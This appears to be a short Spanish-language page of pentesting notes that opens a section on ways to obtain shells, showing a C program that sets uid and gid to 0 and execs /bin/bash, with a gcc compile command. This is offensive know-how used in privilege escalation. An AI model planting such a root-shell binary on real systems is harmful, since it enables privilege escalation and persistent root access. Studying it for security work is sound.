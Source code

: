 # Introducción:
En está sección vamos a colocar todas aquellas formas o vias de realizar shells, en diferentes lenguajes y formas:

## Lenguaje C:
Generar fichero en C para despues compilarlo en un ELF.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0); //Trata de forzar que el uid sea 0, es decir el de root (requiere privilegios)
    setgid(0); //Trata de forzar que el grupo sea 0, es decir el de root (requiere privilegios)
    execl("/bin/bash", "bash", NULL); //Sustituye el PID actual y corre el fichero "/bin/bash" llamandolo "bash", sí es una ruta relativa ira a leer buscando "PATH"
    return 0;
}
```
- Compilarlo:
```
gcc file.c -o exec.elf
```


